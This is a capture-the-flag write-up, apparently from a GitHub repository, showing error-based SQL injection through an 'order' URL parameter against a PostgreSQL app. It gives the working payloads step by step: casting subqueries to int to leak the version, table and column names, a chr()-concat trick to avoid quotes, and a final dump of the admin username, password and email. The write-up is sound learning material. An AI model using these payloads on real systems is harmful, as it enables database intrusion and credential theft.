


We can see that when giving for example
```
?action=contents&order=ASC'
```
we get error, which says:
```
SELECT * FROM contents order by page ASC'
```
So, we can see the query. 
Let's try and give `ASC limit 1`, and see if it works.

Yes, it does, so let's continue to more complicated, giving something like this:
```
ASC limit (SELECT @@version)
```

I'm trying to grab the version, based on [portswigger sql injection cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), We give the different payloads:
```sql
Oracle          SELECT banner FROM v$version
                SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL	        SELECT @@version
```

When giving the payload of `PostgreSQL`, we get this error message:
```
ERROR:  argument of LIMIT must be type bigint, not type text
LINE 1: ...IT;SELECT * FROM contents order by page ASC limit (SELECT ve...
                                                             ^
```

Okay, so let's try and cast it:
```
ASC limit (cast((SELECT version()) as int))
```
And we get:
```
ERROR:  invalid input syntax for integer: "PostgreSQL 9.5.25 on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609, 64-bit"
```


Well done, now we only need to exfiltrate the data

First, leak the table names. you can change the offset until dumping while db, in our case the first offset is working
```
ASC limit (cast((SELECT table_name FROM information_schema.tables limit 1 offset 0) as int))
```

The table name is `m3mbr35t4bl3`, now leak columns;
```
ASC limit (cast((SELECT column_name FROM information_schema.columns where table_name='m3mbr35t4bl3' limit 1 offset 1) as int))
```

However, we can't use `'`, so i wrote this quick python script:
```py
print( 'concat(' + ','.join([f"chr({ord(i)})" for i in list("m3mbr35t4bl3")]) + ')' )
```
And now we can give it:
```sql
concat(chr(109),chr(51),chr(109),chr(98),chr(114),chr(51),chr(53),chr(116),chr(52),chr(98),chr(108),chr(51))
```

So, the columns we get:
```
id
us3rn4m3_c0l
p455w0rd_c0l
em41l_c0l
```

Now, let's extract whole data, by giving this query:
```
ASC limit (cast((SELECT concat(id,chr(09),us3rn4m3_c0l,chr(09),p455w0rd_c0l,chr(09),em41l_c0l) FROM m3mbr35t4bl3 limit 1 offset 0) as int))
```

And we got:
```
1	admin	1a2BdKT5DIx3qxQN3UaC	admin@localhost
```



**Flag:** **_`1a2BdKT5DIx3qxQN3UaC`_**